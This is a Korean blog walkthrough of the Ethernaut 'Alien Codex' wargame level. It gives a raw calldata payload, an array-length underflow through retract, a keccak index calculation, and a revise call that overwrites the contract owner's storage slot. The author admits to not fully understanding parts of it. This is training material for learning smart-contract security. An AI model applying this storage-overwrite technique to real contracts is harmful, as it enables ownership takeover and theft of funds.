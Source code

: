문제 해설에 들어가기 전,  이더넛 내에서 콘솔창과 상호작용을 할 줄 알고 기본적인 리믹스 및 메타마스크 사용법이 숙지되어 있다는 가정 하에 해설을 진행합니다. 필자의 풀이 방법이 절대적은 풀이 방법은 아니므로 이 점 참고하시기 바랍니다.

![대표이미지](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/OpenZeppelin/ethernaut/Heuristic%20Wave%20Ethernaut.png?raw=true)



## Alien Codex Problem



이번에도 역시 주어진 조건을 읽어보자. 필자의 초월해석이 담겨 있기 때문에, 원문을 직접 읽는 것이 제일 좋다. 이번 문제는 내 힘으로 푼것이 거의 아니,, 없다. 오랜만이라는 핑계를 대고 싶지만, 아직 부족해서 https://ylv.io/ethernaut-alien-codex-solution/ 에 포스팅된 해설을 해석해가며 이해한대로 써내려관 결과물이다. 내가 최대한 이해하려고 애쓴, Igor Yalovoy의 풀이에 덧붙인 설명 시작! (사실, Igor Yalovoy의 풀이에도 약간의 잘못된 부분이 있다..)

또한, 이번단계를 들어가기 앞서서 필자가쓴 [EVM Storage](https://medium.com/@heuristicwave/evm-storage%EC%97%90%EB%8A%94-%EC%96%B4%EB%96%BB%EA%B2%8C-%EB%B3%80%EC%88%98%EA%B0%80-%EC%A0%80%EC%9E%A5%EB%90%A0%EA%B9%8C-%EC%A0%80%EC%88%98%EC%A4%80%EC%97%90%EC%84%9C-%ED%99%95%EC%9D%B8%ED%95%98%EB%8A%94-storage-%EC%98%81%EC%97%AD-71dc3a6da8e2)에 관한 글의 내용이 숙지되어 있다는 가정하에 설명을 하겠다.



Alien 컨트랙트를 찾았다. 오너십을 주장하여 이번단계를 해결하자!

- 어떻게 배열이 저장되는지 이해하여야 한다.
- ABI의 특징들을 이해해야 한다.
- Using a very `underhanded` approach (무슨말인지 잘 모르겠다)





### 코드 분석



#### AlienCodex.sol

```javascript
pragma solidity ^0.4.24;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact(bytes32[] _firstContactMessage) public {
    assert(_firstContactMessage.length > 2**200);
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

코드를 봐도 무슨말인지 모르겠다. 그러나, remix에서 주어진 instanceAddress를 넣고 불러와보니 현재, contact의 값은 false인 상태고 record, retract, revise 3개의 함수 모두 contacted라는 modifier를 가지고 있다. 여기서 make_contact로 contact의 값을 true로 먼저 바꿔야지 다른 함수들이 접근 가능하다는 것을 알 수 있다.

그 다음 3개의 함수를 보니 이전 문제들과는 다르게 오너를 바꾸는 함수가 존재 하지 않는다. 각각의 기능을 살펴보면 record에서는 동적할당된 배열에 _content를 넣고, retract에서는 배열의 길이에서 1을 빼고, revise에서는 2개의 인자를 받아 해당 인자값위치의 배열을 _content로 쓴다. 힌트와 조합하여 생각해보면, 어떤 동적배열이 오너와 관련이 있을 것이고 그배열을 revise함수를 사용하여 나의 주소값을 넣으면 해결이 될 것 같다는 느낌적인 느낌이 든다.





### 문제 풀이 과정



우선, contact를 true로 변환해 보자!

(_firstContactMessage.length > 2**200) 의 조건을 맞추면, contact의 값이 true로 바뀐다. 메시지의 길이가 2^200보다 크면 성공한다는 조건에 다음과 같은 트랜잭션을 보낼수 있는 코드를 작성했다. 

```
sendTransaction({to: "0x2abc6d922d6c6413adfc826ff4c5669ce9dd6bed", data: "0x1d3d4c0b00000000000000000000000000000000000000000000000000000000000000201000000000000000000000000000000000000000000000000000000000000000", from: "0x344FbEe17c2d215D364EC5943Bc4a0c7030cfaA1", gas: 900000});
```

to는 InstanceAddress에 해당하고 data 부분에 payload에 해당하는 부분의 16진수data를 넣으면된다. 우리는 make_contact라는 함수를 호출할것이기 때문에, ABI에서 해당하는 functionSelector를(1d3d4c0b) 찾자!  우리는 데이터 값을 넣기위해서 OPCODE를 16진수로 변환한 (0x20)도함께 넣을 것이다. 이어서, 2의 200제곱은 (1606938044258990275541962092341162602522202993782792835301376) 이다. 이것을16진수로 표현하면 0x100000000000000000000000000000000000000000000000000 (0이50개)이기 때문에 이것보다 길이가 길면된다. EVM슬롯하나의 크기는 32byte로 64글자를 채우기위해 부족한만큼 0을 채워 data를 만들면 된다.

![alienCodex01](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/alienCodex01.png?raw=true)

위 사진처럼 트랜잭션을 일으키는 코드를 콘솔창에 넣어 보내면, 메타마스크창에 오는 알림에서 오류를 확인할 수 있는데 가스값을 바꾸어 트랜잭션을 만들면된다.



> 내가 참고한 자료에서는 1뒤에 0을 63개를작성해서 64자리를 만들었다
>
> 0x100000000000000000000000000000000000000000000000000
>
> 2의 256제곱보다 크면 가능할 줄 알고
>
> 0x010000000000000000000000000000000000000000000000000 로도 트랜잭션을 만들었는데 false값을 바꾸지 못했다. 정확한 이유를 모르겠다. 일단은 참고한 자료대로 true 값을 얻어내어 진행했다.



위 과정을 통해 우리는 contact의 값을 true로 바꾸었고, modifier가 붙어있는 함수를 호출할 수 있다. retract()를 살펴보면 동적배열의 길이에 1을 빼주는데, underflow, overflow를 검사하는 코드가 없다는 것을 알 수 있다.  이 함수를 호출하여 codex의 길이를 2^256 - 1 만큼의 길이로 변환시켜야다. [솔리디티에서는 uint256의 경우 0 ~ 2^256 -1 사이로 범위를 제한한다.](https://solidity.readthedocs.io/en/develop/frequently-asked-questions.html?highlight=2**256#what-does-the-following-strange-check-do-in-the-custom-token-contract) 이 약점을 통해 EVM의 스토리지 길이를 codex의 길이로 설정하여 우리는 EVM 스토리지의 모든 슬롯을 수정할수 있게 될 것이다.

AlienCodex가 배포된 첫번째 Storage에는 맨처음 변수를 선언했던 정보가 저장되어 있을 것이다. 슬롯 하나의 크기는 32바이트인데, 선언된 정보가 각각 1바이트와 20바이트로 슬롯하나의 크기보다 작기때문에 첫번째 슬롯에 함께 저장된다.

```javascript
bool public contact;	// 1byte
bytes32[] public codex;	// 20byte
```

위의 가정은 다음과 같은 web3라이브러리를 활용한 메시지로 확인할 수 있다.

콘솔창에서 아래 코드를 입력하면 alert창에 0번째 슬롯의 정보가 나온다.

```javascript
web3.eth.getStorageAt("0x2abc6d922d6c6413adfc826ff4c5669ce9dd6bed", 0, function(err, res) {alert(res)})

=>0x00000000000000000000000173048cec9010e92c298b016966bde1cc47299df5
```

이어서 위 코드에서 2번째 슬롯을 조회해보면 다음과 같은 값을 얻을 수 있다. (codex의 길이)

```javascript
web3.eth.getStorageAt("0x2abc6d922d6c6413adfc826ff4c5669ce9dd6bed", 1, function(err, res) {alert(res)})

=>0x0000000000000000000000000000000000000000000000000000000000000001
```

현재 codex의 길이가 1이므로 retract함수를 호출하여 길이를 줄이자. 우리가 원하는 길이는 2^256 - 1 이므로 retract함수를 2번 호출하면 된다. 2번 호출이후 codex의 길이를 조회하면 우리가 원하는 상태인 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff의 결과값을 반환한다.

여기까지 revise(내 주소로 owner대체)를 호출할 준비를 마쳤다. revise함수는 uint i와 bytes32 _content를 매개변수로 받는데, 여기서 첫번째 인자 i는 owner가 저장된 슬롯위치의 해시값이 들어가고 2번째인자는 owner가 될 주소인 나의 주소가 될 것이다.

revise함수를 호출하기 위해 첫번째 인자 i를 알아보자!

빠르게 해시값을 구하기 위해 jvm환경에서 아래 코드를 복사하여 배포해보자.

```
pragma solidity ^0.4.24;

contract Calc {
    bytes32 public one;
    uint public index;
    
    function getIndex() {
        one = keccak256(bytes32(1));
        index = (2 ** 256 -1) - uint(one) + 1;
    }
}
```

변수 one은 첫번째슬롯의 위치를 나타낸다. 

index에서 -1, +1을 해준이유는, evm의 슬롯의 길이가 2^256에서 빼려면 리믹스에서 컴파일이 되지 않기 때문에, 2^256에서 1을 먼저 빼서 계산한 뒤에 보정값 1을 넣어 코드를 작성했다. 

인덱스에 해당하는 슬롯의 위치는 **keccak256(slot) + index**의 값이다. 때문에, 구하고자 하는 index의 위치(owner의 값이 들어잇는 첫번째 슬롯)는2^256 개의슬롯에서 슬롯1의 값을 뺀 값이다. ( 사실 필자도 2의 256에서 one의 값을 빼준것이 왜 첫번째 슬롯의 위치에 해당하는지 정확하게 이해가가지 않는다. 이것때문에 거의 1주일을 고민하다 그냥 지금까지 이해한것을 토대로 해설글을 쓰기로 했다.)

위 코드를 배포하여 위치를 확인하면 아래와 같다.

![alienCodex02](https://raw.githubusercontent.com/heuristicwave/TIL-about-Blockchain/master/img/alienCodex02.png) 

다음은 owner가 저장된 슬롯의 정보를 바꾸는 코드이다.

```
contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938', '0x000000000000000000000000344FbEe17c2d215D364EC5943Bc4a0c7030cfaA1', {from:player, gas: 900000});
```

index의 위치를 정확하게 알앗기 때문에 위 코드를 콘솔창에 넣어 트랜잭션을 발생시키면, 아래와 같이 첫번째 슬롯을 조회 했을때 내 주소로 변경한 것을 확인 할 수 있다.

![alienCodex03](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/alienCodex03.png?raw=true)

이제 문제를 제출하면 끝!



3달전 마지막으로 19번 문제를 풀고 기말고사 준비로 손을 놓고 있다보니, 다시 머리를 쓰기가 무척이나 힘들었다. (이게 다 게으름 때문이지만...) 하루에 2시간씩 고민하며, 20번 문제해설을 작성하다보니 거의 2주가 걸렸다. 최근 들어 구글링을 해보니 나 말고도 문제풀이를 올리시는 분들이 보이기 시작했다. 어서 빨리 나도 연재를 끝내야지....  3달 동안 내 실력도 많이 늘어 이전문제에 대한 풀이 방법이 부끄럽게 느껴진다. 



21번 문제 Denial에서 만나요!